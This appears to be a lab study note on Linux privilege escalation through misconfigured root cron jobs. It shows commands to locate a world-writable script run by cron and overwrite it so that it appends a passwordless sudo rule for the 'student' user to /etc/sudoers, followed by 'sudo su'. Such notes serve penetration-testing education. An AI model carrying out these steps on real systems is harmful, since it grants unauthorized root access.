 # B - Exploiting Misconfigured Cron Jobs

## **Cron Jobs**

* Linux implements task scheduling through a utility called Cron.
* Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule.
* An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches.
* The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.

## **Exploiting Misconfigured Cron Jobs**

* Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the “root” user.
* This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
* In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

## **Practical Demonstration**

After gaining initial foothold on the target system, with an unpriliveged account (whoami -> student).

{% code overflow="wrap" lineNumbers="true" %}
```bash
#
crontab -l # Returns list of cronjobs scheduled by current user

# we saw a file [message] owned by root, so why is this file here? 

# we use the grep utility to search all occurences of the file [message]
grep -rnw /usr -e "/home/student/message" # Use grep to search for occurencies of the path in any script/file/directory in /usr.
# or
grep -r / -e "/home/student/message" 2>/dev/null # -r is recursively, -e is match exact string.

# we get a result: "/usr/local/share/copy.sh"
# when we check the permissions for the "copy.sh" script, we see that the file is owned by root, but other users has rwx permissions.
# you can cat the content of the script.

# we can modify the content of the script to add us to sudo group everytime it runs.
# since there is no text editor in the lab, we use the "printf" cmd to write.
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
# It allows non-elevated "student" user to do everything, and redirect the command to the cronjob associated to the file found earlier.
sudo -l # outputs list of root cmds the user can do without password.
sudo su # now we are root.




# RECAP
# 1- Identify files or scripts used by Cronjob and created by a privileged user
# 2- Check if this file/script can be modified by an unprivileged user
# 3- If it is, add a command to the file/script that add the unprivileged user to the sudoers file
# 4- The next time the Cronjob will be executed, the unprivliged user will be part of the sudoers!

```
{% endcode %}



